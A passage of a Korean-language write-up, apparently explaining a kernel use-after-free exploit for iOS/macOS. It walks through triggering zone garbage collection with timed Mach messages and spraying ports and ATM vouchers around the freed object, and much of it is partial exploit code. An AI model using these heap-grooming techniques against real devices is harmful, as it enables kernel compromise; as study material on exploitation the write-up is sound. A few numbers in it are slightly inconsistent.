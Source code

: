 따라서 다음 함수가 사용된다. 여기서는 kalloc.16384 존에 전송될 메시지를 할당하고, 이를 `send_kalloc_message` 함수를 통해 256번 전송하며, 각 전송에 걸리는 시간을 기록한다. 
만약 이 메시지들을 전송하는 데 2,000,0000 나노초(20밀리초) 이상이 걸린다면, 우리는 GC가 트리거되었다고 가정할 수 있다. (걸리는 시간은 환경에 따라 다름; iOS 기기의 경우: 1,000,000 나노초(1밀리초))

```cpp
void trigger_gc_please()
{
    ...
    uint32_t body_size = message_size_for_kalloc_size(16384) - sizeof(mach_msg_header_t); // 1024
    uint8_t *body = malloc(body_size); 
    memset(body, 0x41, body_size);
    
    for (int i = 0; i < gc_ports_cnt; i++)
    {
        uint64_t t0, t1;

        t0 = mach_absolute_time();
        gc_ports[i] = send_kalloc_message(body, body_size);
        t1 = mach_absolute_time();
        
        if (t1 - t0 > 20000000) 
        {
            INFO("got gc at %d -- breaking, t1-t0: %llu\n", i, t1 - t0);
            gc_ports_max = i;
            break;
        }
    }

    ...

    sched_yield();
    sleep(1);
}
```

GC 트리거가 실패하면 페이지가 해제되지 않으며, 우리의 힙 스프레이가 실패하게 되어 전체 익스플로잇이 실패한다. GC는 비동기적으로 작동하므로, GC가 완료되었는지 확인하기 위해 일정 시간을 기다려야 한다.
따라서 이 함수의 에필로그에서 `sched_yield`와 `sleep` 호출이 포함되었다.

GC에서 중요한 요소는 주어진 페이지에 있는 모든 객체가 해제된 후에야 페이지 자체가 해제될 수 있다는 점이다. 즉, 우리의 대상 UAF 바우처와 같은 페이지에 하나의 할당도 존재할 수 없다는 것이다. 
이를 해결하기 위해, 대상 "p1" 전에 0x2000번 포트가 할당하고, 그 후에 0x1000번 포트가 추가로 할당한다.

다음 코드를 참조하길 바란다.

```cpp
...
    /* create a few vouchers used to trigger the bug */
    mach_voucher_attr_recipe_data_t atm_data = 
    {
        .key = MACH_VOUCHER_ATTR_KEY_ATM,
        .command = 510
    };

    mach_port_t p2;
    ret = host_create_mach_voucher(mach_host_self(), (mach_voucher_attr_raw_recipe_array_t)&atm_data, sizeof(atm_data), &p2);
    
    mach_port_t p3;
    ret = host_create_mach_voucher(mach_host_self(), (mach_voucher_attr_raw_recipe_array_t)&atm_data, sizeof(atm_data), &p3);

    /* allocate 0x2000 vouchers to alloc some new fresh pages */
    for (int i = 0; i < sizeof(before) / sizeof(mach_port_t); i++)
    {
```